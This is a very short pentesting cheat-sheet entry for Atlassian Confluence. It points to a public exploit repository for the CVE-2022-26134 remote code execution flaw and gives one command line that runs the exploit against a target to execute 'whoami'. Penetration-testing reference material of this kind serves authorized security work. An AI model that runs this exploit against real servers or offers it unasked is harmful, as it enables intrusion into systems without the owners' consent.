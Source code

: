 ```yaml
---
title: Atlassian Confluence Pentesting
desc: 
tags: [Atlassian, Confluence, Web]
alts: []
render_with_liquid: false
---
```


## Remote Code Execution (CVE-2022-26134)

Download the exploit from the [repo](https://github.com/h3v0x/CVE-2022-26134).

```sh
python3 exploit.py -u http://<target-ip> -c whoami
```

